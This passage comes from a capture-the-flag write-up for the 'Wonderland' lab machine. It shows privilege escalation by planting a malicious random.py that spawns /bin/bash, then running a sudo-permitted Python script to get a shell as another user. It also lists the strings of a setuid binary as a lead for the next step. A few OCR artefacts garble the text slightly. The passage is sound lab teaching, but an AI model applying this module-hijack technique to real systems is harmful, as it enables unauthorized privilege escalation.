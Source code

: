 ```python
Theyâ€™d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)v
```

Based on this, we found that the `random` module can be `Hijacked`, let's do the following to get a shell as `rabbit`:

1. Create a malicious `random.py` module:

```python
import os
os.system('/bin/bash')
```

2. Hijack the script and gain the shell as `rabbit`:

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![Pasted image 20250410173359.png](../../IMAGES/Pasted%20image%2020250410173359.png)

Nice, we were able to get the shell as `rabbit`, if we check the home of this user, we can find this:

```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

We got a binary called `teaParty`, if we check the strings of the binary, we can find this:

```bash
strings teaParty
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7325
```